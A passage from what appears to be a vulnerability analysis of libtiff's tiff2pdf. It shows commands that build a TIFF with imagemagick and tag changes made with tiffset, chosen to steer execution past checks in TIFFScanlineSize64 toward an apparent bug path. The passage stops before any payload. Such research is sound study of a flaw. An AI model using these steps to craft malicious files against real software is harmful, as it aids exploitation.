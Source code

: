 Now, lets make a TIFF file using `imagemagick` and then change its properties. We also need to set bits/sample to 8.

```bash
convert -depth 8 -size 100x100 xc:white -compress None sample.tif
```

Run `./tiffinfo` on `sample.tif` and we get:

```bash
TIFF Directory at offset 0x132 (306)
  Image Width: 100 Image Length: 100
  Bits/Sample: 8
  Compression Scheme: None
  Photometric Interpretation: min-is-black
  FillOrder: msb-to-lsb
  Orientation: row 0 top, col 0 lhs
  Samples/Pixel: 1
  Rows/Strip: 100
  Planar Configuration: single image plane
  Page Number: 0-1
  White Point: 0.3127-0.329
  PrimaryChromaticities: 0.640000,0.330000,0.300000,0.600000,0.150000,0.060000
  Predictor: horizontal differencing 2 (0x2)
```

This image will not let anything execute in body of `if` condition. 

Next we have the statement:

```c
k = checkMultiply64(TIFFScanlineSize(input), t2p->tiff_length, t2p);
```

We analyze the `TIFFScanlineSize` function which is in `tif_strip.c`.

`TIFFScanlineSize` in turn calls `TIFFScanlineSize64`. There are few checks that we need to pass.

```c
if (td->td_planarconfig==PLANARCONFIG_CONTIG)
{
	if ((td->td_photometric==PHOTOMETRIC_YCBCR)&&
		(td->td_samplesperpixel==3)&&
		(!isUpSampled(tif)))
		{

```

We set the samples per pixel to 3. 

```bash
tiffset -s 277 3 sample.tif
```

Right now we have `Photometric Interpretation: min-is-black`. we need to set it to YCBCR. 

```bash
tiffset -s 262 6 sample.tif
```
